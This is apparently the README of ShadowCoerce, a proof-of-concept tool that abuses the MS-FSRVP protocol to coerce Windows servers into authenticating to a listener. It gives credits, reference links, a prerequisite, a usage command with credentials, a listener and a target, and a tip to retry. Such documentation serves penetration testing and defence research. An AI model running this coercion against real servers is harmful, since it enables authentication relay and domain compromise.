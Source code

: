 # ShadowCoerce
MS-FSRVP coercion abuse PoC

Credits: Lionel GILLES (a.k.a. Topotam)
Source: https://twitter.com/topotam77/status/1475701014204461056

Explanation: https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-fsrvp

MS Docs: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

"File Server VSS Agent Service" needs to be enabled on the target server.

```shell
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

![example](.assets/example.png)

*In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. **TL;DR: run the command twice if it doesn't work.***
